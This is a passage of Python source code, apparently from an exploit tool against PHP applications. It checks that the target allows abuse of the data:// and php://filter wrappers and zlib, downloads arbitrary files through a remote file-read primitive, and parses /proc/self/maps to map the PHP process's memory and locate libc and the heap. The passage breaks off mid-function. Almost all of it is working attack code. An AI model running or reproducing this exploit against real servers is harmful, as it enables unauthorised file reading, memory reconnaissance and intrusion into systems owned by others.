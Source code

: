```python
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")

        msg_info("The [i]data://[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(text.encode(), misalign=True).decode()
        path = f"php://filter//resource=data:text/plain;base64,{base64}"
        if not check_token(text, path):
            failure("The [i]php://filter/[/] wrapper does not work")

        msg_info("The [i]php://filter/[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(compress(text.encode()), misalign=True).decode()
        path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"

        if not check_token(text, path):
            failure("The [i]zlib[/] extension is not enabled")

        msg_info("The [i]zlib[/] extension is enabled")

        msg_success("Exploit preconditions are satisfied")

    def get_file(self, path: str) -> bytes:
        with msg_status(f"Downloading [i]{path}[/]..."):
            return self.remote.download(path)

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.remote.data_decode(self.get_file("/proc/self/maps"))
        
        PATTERN = re.compile(
            r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
        )
        regions = []
        for region in table.split(maps, strip=True):
            if match := PATTERN.match(region):
                start = int(match.group(1), 16)
                stop = int(match.group(2), 16)
                permissions = match.group(3)
                path = match.group(4)
                if "/" in path or "[" in path:
                    path = path.rsplit(" ", 1)[-1]
                else:
                    path = ""
                current = Region(start, stop, permissions, path)
                regions.append(current)
            else:
                failure("Unable to parse memory mappings")

        self.log.info(f"Got {len(regions)} memory regions")

        return regions

    def get_symbols_and_addresses(self) -> None:
        """Obtains useful symbols and addresses from the file read primitive."""
        regions = self.get_regions()

        LIBC_FILE = "./libc.so.6"

        # PHP's heap
```